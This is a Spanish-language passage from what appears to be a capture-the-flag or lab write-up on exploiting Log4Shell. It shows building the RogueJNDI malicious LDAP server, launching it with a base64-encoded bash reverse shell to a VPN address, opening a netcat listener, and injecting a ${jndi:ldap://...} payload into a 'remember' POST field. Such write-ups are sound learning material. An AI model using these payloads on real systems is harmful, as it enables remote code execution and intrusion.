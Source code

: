## ⚙️ 3. Montar servidor malicioso con RogueJNDI

**Montamos un servidor LDAP malicioso con RogueJNDI**

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi
mvn package
```

**Ejecutamos RogueJNDI con el payload base64:**

```bash
sudo java -jar target/RogueJndi-1.1.jar \
--command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTAwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}" \
--hostname 10.10.16.100
```

![](../img/3c904d5353e5f8e32f7cb41d949b93b8.png)

Donde el payload decodificado es:

- El payload Base64 representa: `bash -i >& /dev/tcp/(IP-VPN)/4444 0>&1`
    
- Se lanza listener con:

```bash
sudo nc -nlvp 4444
```

## 🔍 2. Detección y explotación de Log4Shell

### 🪓 Punto de inyección

En la petición POST interceptada, se encuentra un campo vulnerable `remember`, donde insertamos el payload:

```bash
"${jndi:ldap://IP:1389/o=tomcat}",
```
